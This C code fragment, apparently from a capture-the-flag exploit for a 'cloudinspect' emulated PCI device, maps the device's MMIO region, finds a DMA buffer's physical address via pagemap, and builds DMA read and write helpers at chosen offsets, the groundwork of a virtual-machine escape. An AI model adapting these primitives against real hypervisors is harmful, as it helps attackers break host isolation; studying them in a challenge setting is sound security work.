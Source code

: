 ```c

uint64_t ioread(uint64_t addr)
{
		return *((uint64_t*)(iomem + addr));
}

uint64_t write_dmabuf(uint64_t offt, uint64_t value) {
		*(uint64_t* )dmabuf = value;
		iowrite(CLOUDINSPECT_MMIO_OFFSET_CMD, CLOUDINSPECT_DMA_PUT_VALUE);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_DST, offt);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_CNT, 8);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_SRC, dmabuf_phys_addr);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_TRIGGER, 0x300);
		return 0;
}

uint64_t read_offt(uint64_t offt) {
		iowrite(CLOUDINSPECT_MMIO_OFFSET_CMD, CLOUDINSPECT_DMA_PUT_VALUE);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_SRC, offt);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_CNT, 8);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_DST, dmabuf_phys_addr);
		ioread(CLOUDINSPECT_MMIO_OFFSET_TRIGGER);
		return *(uint64_t* )dmabuf;
}

int main() {
		int fd1 = open(PATH, O_RDWR | O_SYNC);
		if (-1 == fd1) {
				fprintf(stderr, "Cannot open %s\n", PATH);
				return -1;
		} // open resource0 to interact with the device
		
		iomem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd1, 0); // map resource0
		printf("iomem @ %p\n", iomem);
		
		fd = open("/proc/self/pagemap", O_RDONLY);
		if (fd < 0) {
				perror("open");
				exit(1);
		}

		dmabuf = malloc(0x1000);
		memset(dmabuf, '\x00', sizeof(dmabuf));
		if (MAP_FAILED == iomem) {
				return -1;
		}

		mlock(dmabuf, 0x1000); // trigger PAGE_FAULT to acually map the page
		dmabuf_phys_addr = virt2phys(dmabuf); // grab physical address according to pagemap
		printf("DMA buffer (virt) @ %p\n", dmabuf);
		printf("DMA buffer (phys) @ %p\n", (void*)dmabuf_phys_addr);
}
```
